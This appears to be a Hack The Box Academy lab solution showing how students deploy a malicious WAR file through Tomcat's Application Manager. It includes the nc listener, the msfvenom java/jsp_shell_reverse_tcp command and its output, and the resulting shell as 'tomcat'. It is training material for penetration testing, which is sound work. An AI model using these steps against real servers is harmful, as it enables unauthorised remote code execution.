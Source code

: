 After logging to the Application Manager, students will notice that they can upload `.WAR` files:

![[HTB Solutions/CPTS/z. images/2b113f5342fab2345690b3c49f140f0b_MD5.jpg]]

Therefore, students need to upload a malicious `.WAR` file that will send them a reverse shell session from the backend server. Students first need to start an `nc` listener that will catch the reverse shell on the jump host:

```shell
nc -nvlp PWNPO
```
```
┌─[eu-academy-1]─[10.10.14.228]─[htb-ac413848@htb-7lpyzphcoo]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Then, students need to use `msfvenom`, specifying the payload `java/jsp_shell_reverse_tcp`, `LPORT` to be the port that `nc` is listening on (i.e., `PWNPO`):

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=PWNIP LPORT=PWNPO -f war -o managerUpdated.war
```
```
┌─[eu-academy-1]─[10.10.14.228]─[htb-ac413848@htb-7lpyzphcoo]─[~]
└──╼ [★]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.228 LPORT=9001 -f war -o managerUpdated.war

Payload size: 1103 bytes
Final size of war file: 1103 bytes
Saved as: managerUpdated.war
```

Students then need to upload and deploy the malicious `.WAR` file to the Application Manager:

![[HTB Solutions/CPTS/z. images/082ffac2347d124ace4581d22a881a47_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/3be5e1a3c52fffd460b794c787e3d051_MD5.jpg]]

After deploying it, students need to click on it to notice that the reverse shell connection has been established on the `nc` listener:

![[HTB Solutions/CPTS/z. images/3b23c6b014d8459bec63a46f50da4743_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/fda8314baf0b621bbefa0d7d301d929d_MD5.jpg]]

```
Ncat: Connection from 10.129.76.230.
Ncat: Connection from 10.129.76.230:55938.

whoami
tomcat
```
